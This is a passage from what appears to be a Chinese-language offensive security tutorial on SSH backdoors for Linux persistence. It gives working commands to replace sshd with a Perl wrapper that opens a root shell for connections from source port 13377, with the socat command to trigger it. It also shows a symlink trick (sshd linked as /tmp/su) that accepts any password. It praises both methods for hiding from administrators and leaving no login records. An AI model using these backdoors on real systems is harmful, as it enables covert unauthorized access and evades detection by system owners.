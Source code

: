 ### 0x04 SSH 后门

#### 4.1 SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到 / bin/sh 中:

```
cd /usr/sbin/
mv sshd ../bin/

echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd   //4A是13377的小端模式
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd

/etc/init.d/sshd restart


```

在本机执行:

```
socat STDIO TCP4:target\_ip:22,sourceport=13377


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165200237-492698024.png)

实现原理：init 首先启动的是 /usr/sbin/sshd , 脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 /usr/bin/sshd ，这是原始 sshd 。原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的 /usr/sbin/sshd ，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字， getpeername 能真的获取到客户端的 TCP 源端口，如果是 13377 就执行 sh 给个 shell。

想要修改连接端口的话可以利用 py 修改：

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer)


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305165647857-2116649151.png)

优点：  
1、在无连接后门的情况下，管理员是看不到端口和进程的，last 也查不到登陆。  
2、在针对边界设备出网，内网 linux 服务器未出网的情况下，留这个后门可以随时管理内网 linux 服务器，还不会留下文件和恶意网络连接记录。

#### 4.2 SSH 软连接后门

软连接后门的原理是利用了 PAM 配置文件的作用，将 sshd 文件软连接名称设置为 su，这样应用在启动过程中他会去 PAM 配置文件夹中寻找是否存在对应名称的配置信息 (su)，然而 su 在 pam\_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录:

```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888

ssh root@127.0.0.1 -p 888


```

